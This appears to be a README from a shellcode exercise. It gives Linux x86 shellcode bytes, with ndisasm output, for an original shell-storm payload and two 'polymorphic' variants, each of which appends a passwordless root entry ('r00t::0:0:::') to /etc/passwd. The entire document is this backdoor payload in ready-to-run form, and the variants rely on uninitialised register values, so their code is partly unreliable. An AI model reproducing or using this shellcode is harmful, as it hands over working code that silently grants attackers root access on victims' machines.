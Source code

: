 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-211.php)

Length: 69 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x89\xc3\x6a\x04\x58\x31\xd2\x52\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  31C9              xor ecx,ecx
    00000005  51                push ecx
    00000006  6873737764        push dword 0x64777373
    0000000B  682F2F7061        push dword 0x61702f2f
    00000010  682F657463        push dword 0x6374652f
    00000015  89E3              mov ebx,esp
    00000017  66B90104          mov cx,0x401
    0000001B  CD80              int 0x80
    0000001D  89C3              mov ebx,eax
    0000001F  6A04              push byte +0x4
    00000021  58                pop eax
    00000022  31D2              xor edx,edx
    00000024  52                push edx
    00000025  68303A3A3A        push dword 0x3a3a3a30
    0000002A  683A3A303A        push dword 0x3a303a3a
    0000002F  6872303074        push dword 0x74303072
    00000034  89E1              mov ecx,esp
    00000036  6A0C              push byte +0xc
    00000038  5A                pop edx
    00000039  CD80              int 0x80
    0000003B  6A06              push byte +0x6
    0000003D  58                pop eax
    0000003E  CD80              int 0x80
    00000040  6A01              push byte +0x1
    00000042  58                pop eax
    00000043  CD80              int 0x80
    
  
 ## Polymorphic nasm code

Length: 68 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x6a\x03\x5b\x83\xc0\x01\x50\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x83\xc3\x03\x89\xd8\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6873737764        push dword 0x64777373
    00000009  682F2F7061        push dword 0x61702f2f
    0000000E  682F657463        push dword 0x6374652f
    00000013  89E3              mov ebx,esp
    00000015  66B90104          mov cx,0x401
    00000019  CD80              int 0x80
    0000001B  6A03              push byte +0x3
    0000001D  5B                pop ebx
    0000001E  83C001            add eax,byte +0x1
    00000021  50                push eax
    00000022  68303A3A3A        push dword 0x3a3a3a30
    00000027  683A3A303A        push dword 0x3a303a3a
    0000002C  6872303074        push dword 0x74303072
    00000031  89E1              mov ecx,esp
    00000033  6A0C              push byte +0xc
    00000035  5A                pop edx
    00000036  CD80              int 0x80
    00000038  83C303            add ebx,byte +0x3
    0000003B  89D8              mov eax,ebx
    0000003D  CD80              int 0x80
    0000003F  6A01              push byte +0x1
    00000041  58                pop eax
    00000042  CD80              int 0x80

## Easter egg 

 Due to changes made in the original code are pretty insignificant to reduce the length in bytes, there is another file named root_user_bigger_length which is 72 bytes length with more modifications. 
 
Length: 72 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x8d\x5d\xd4\x66\xb9\x01\x04\xcd\x80\x6a\x03\x5b\x83\xc0\x01\x50\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x8d\x4d\xc4\x6a\x0c\x5a\xcd\x80\x83\xc3\x03\x89\xd8\xcd\x80\x89\xd8\x83\xe8\x05\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6873737764        push dword 0x64777373
    00000009  682F2F7061        push dword 0x61702f2f
    0000000E  682F657463        push dword 0x6374652f
    00000013  8D5DD4            lea ebx,[ebp-0x2c]
    00000016  66B90104          mov cx,0x401
    0000001A  CD80              int 0x80
    0000001C  6A03              push byte +0x3
    0000001E  5B                pop ebx
    0000001F  83C001            add eax,byte +0x1
    00000022  50                push eax
    00000023  68303A3A3A        push dword 0x3a3a3a30
    00000028  683A3A303A        push dword 0x3a303a3a
    0000002D  6872303074        push dword 0x74303072
    00000032  8D4DC4            lea ecx,[ebp-0x3c]
    00000035  6A0C              push byte +0xc
    00000037  5A                pop edx
    00000038  CD80              int 0x80
    0000003A  83C303            add ebx,byte +0x3
    0000003D  89D8              mov eax,ebx
    0000003F  CD80              int 0x80
    00000041  89D8              mov eax,ebx
    00000043  83E805            sub eax,byte +0x5
    00000046  CD80              int 0x80
